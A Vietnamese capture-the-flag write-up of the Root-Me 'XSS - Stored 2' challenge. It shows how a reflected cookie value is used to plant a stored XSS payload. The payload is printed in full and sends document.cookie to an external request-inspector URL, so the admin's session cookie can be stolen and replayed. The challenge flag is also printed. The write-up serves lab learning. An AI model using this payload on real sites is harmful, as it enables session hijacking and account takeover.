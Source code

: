 # Write up challenge XSS - Stored 2

Tác giả:
- **Nguyễn Mỹ Quỳnh** <br>

  
[Link Challenge](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-2)<br>
</br>



<br>


Truy cập challenge ta thấy có một form gửi message và một đường link admin.

<img src="./img/1.png" alt="normal_acc_TRAbID"/> 

<br>

<br>

Bài này cũng tương tự bài XSS - Stored 1 ở chỗ là sau nhiều lần điền thử, gửi và refresh lại trang, em nhận thấy sau khi mình gửi message sẽ được lưu lại ở trang này và sau vài phút thì admin sẽ vào đọc tin nhắn.  

Tuy nhiên tiến hành inspect ta thấy bài này khác ở chỗ là có vẻ input đã được kiểm tra nên không thể khai thác lỗ hổng từ việc truyền vào 2 ô input này được. 

<img src="./img/3.png" alt="normal_acc_TRAbID"/> 

<img src="./img/2.png" alt="normal_acc_TRAbID"/>

<br><br>

Thử xem xét các dữ kiện khác. Nhấp vào link admin đường dẫn thay đổi nhưng trang vẫn không có gì thay đổi 

<img src="./img/4.png" alt="normal_acc_TRAbID"/> 

<br>

Tiến hành inspect và xem cookie ở Network, ta thấy `status=invite` là một trong những cookie đáng chú ý (còn lại là các cookie của user)

<img src="./img/5.png" alt="normal_acc_TRAbID"/> 

<br>

Mặt khác ta cũng nhận thấy được sự xuất hiện của `invite` trong class thẻ `<i>` trả về. Có thể đây chính là lỗ hổng. 

<img src="./img/6.png" alt="normal_acc_TRAbID"/>


<br> Sử dụng burpsuite sửa cookie thành một giá trị khác

<img src="./img/7.png" alt="normal_acc_TRAbID"/>

Thật vậy có lỗ hổng!

<img src="./img/8.png" alt="normal_acc_TRAbID"/>

Những gì cần làm sẽ là lợi dụng lỗ hổng này để chèn đoạn script lưu trữ để khi admin truy cập vào check tin nhắn thì cookie của admin sẽ được gửi đến endpoint mà mình chỉ định.

<br> 
Tiến hành chèn script:
    
    "><script>document.write("<img src='https://requestinspector.com/inspect/01fyyazm8j1a7pvz6wcx6mqg74/" %2b document.cookie %2b "'></img>")</script>
   

<img src="./img/9.png" alt="normal_acc_TRAbID"/>


Nhận được request chứa cookie của user

<img src="./img/10.png" alt="normal_acc_TRAbID"/>

<img src="./img/11.png" alt="normal_acc_TRAbID"/>

<br>

Việc còn lại chỉ cần đợi admin vào đọc message và ta sẽ có được cookie:
<img src="./img/12.png" alt="normal_acc_TRAbID"/>

<br>

Dùng burpsuite sửa cookie để vào admin section
<img src="./img/13.png" alt="normal_acc_TRAbID"/>
<br>
Có được flag:
<img src="./img/14.png" alt="normal_acc_TRAbID"/>

<div style = "page-break-after: always;"></div>

Submit thành công 

<img src="./img/15.png" alt="normal_acc_TRAbID"/>

<br><br>

> **Flag:** E5HKEGyCXQVsYaehaqeJs0AfV

